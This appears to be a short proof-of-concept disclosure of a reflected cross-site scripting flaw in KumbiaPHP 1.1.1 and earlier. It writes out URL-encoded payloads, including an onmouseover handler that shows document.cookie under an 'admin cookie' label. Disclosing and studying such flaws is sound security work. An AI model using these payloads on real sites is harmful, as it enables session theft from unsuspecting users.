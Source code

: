 # KumbiaPHP

## KumbiaPHP 1.1.1

* description : Allow attacker to inject arbitrary malicious HTML or Javascripts code in user web browser
* Affected version : All <= 1.1.1 

### Information

To make this POC, i just install `KumbiaPHP`  by `git clone` then i used composer and i ran it in WAMP Server 

* Vulnerability Type : Cross Site Scripting (XSS Reflected)


### POC

Make sure you are in `Development` mode,
to check it is simple; try to go there : `http://kumbiaphp/public/pages/kumbia/status/`
replace status by `*` and you'll see the stacktrace, then replace `*` by a payload like this `/<a%20onmouseover="alert('got%20it')"/>jenaye/</a/>`

So your url Your url  will look like the following `http://kumbiaphp/public/pages/kumbia//%3Ca%20onmouseover=%22alert((document.cookie)%22/%3EGetAdminCookie/%3C/a/%3E/`  

<img width="1280" alt="poc" src="https://raw.githubusercontent.com/jenaye/KumbiaPHP-/master/poc.png">
